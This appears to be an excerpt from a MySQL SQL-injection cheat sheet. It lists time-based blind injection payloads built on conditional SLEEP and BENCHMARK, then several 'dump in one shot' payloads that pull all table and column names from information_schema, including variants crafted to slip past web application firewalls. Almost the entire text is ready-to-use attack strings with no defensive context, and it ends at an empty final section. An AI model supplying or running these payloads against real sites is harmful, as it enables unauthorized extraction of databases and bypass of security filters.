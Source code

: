 ### Using conditional statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```


## MYSQL DIOS - Dump in One Shot

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#

(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

-- SecurityIdiots
make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Profexer
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

-- Dr.Z3r0
(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))

-- M@dBl00d
(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

-- Zen
+make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Zen WAF
(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

-- ~tr0jAn WAF
+concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/+

-- ~tr0jAn Benchmark
```
